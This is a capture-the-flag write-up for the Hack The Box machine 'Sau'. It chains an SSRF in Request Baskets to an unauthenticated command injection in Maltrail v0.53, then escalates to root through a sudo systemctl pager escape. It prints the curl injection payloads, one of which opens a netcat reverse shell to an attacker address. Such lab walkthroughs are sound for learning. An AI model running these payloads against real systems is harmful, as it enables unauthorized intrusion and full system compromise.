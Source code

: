 We start with an all ports enumeration with nmap:

	nmap -p- 10.10.11.224

output:

	

we can see that there is open 55555 and a filtered 8338(maltrail run behind this port), for the moment we can visit the following url:

	http://10.10.11.224:55555

in this website run Request Baskets(web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI).
Searching on internet "Request Baskets exploit" it's vulnerable to SSRF(Server-Side Requests Forgery) and there is a poc on this site:

	https://notes.sjtu.edu.cn/s/MUUhEymt7

we can create a new bucket, go to settings and insert this options:

	Forward URL:
	http://127.0.0.1:8338/ /8338 suspicious port/ 
	enable Proxy response
	enable Expand Forward Path

now we browse this URL:

	http://sau.htb:55555/<name basket>

we're inside in a strange page of maltrail, at the bottom of the page there is an important info _Powered by Maltrail (v0.53)_; it's time to search it on internet some exploit.

interesting site:

	https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/

payload:

	curl 'http://sau.htb:8338/<basket>/login' --data 'username=;`id > /tmp/bbq`'

we modify it:

	curl 'http://sau.htb:8338/<basket>/login' --data 'username=;`busybox nc 10.10.16.40 7777 -e /bin/bash`'
	python3 -m pwncat -lp 7777

we're in and we can retrieve the user flag, if we do the sudo -l command we have this following command:

	(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

we can run this command:

	sudo /usr/bin/systemctl status trail.service

inside:

	/bin/bash

sbma we're root thanks to pager--soft link--> /bin/less that it can executes shell command.
we can retrieve root flag.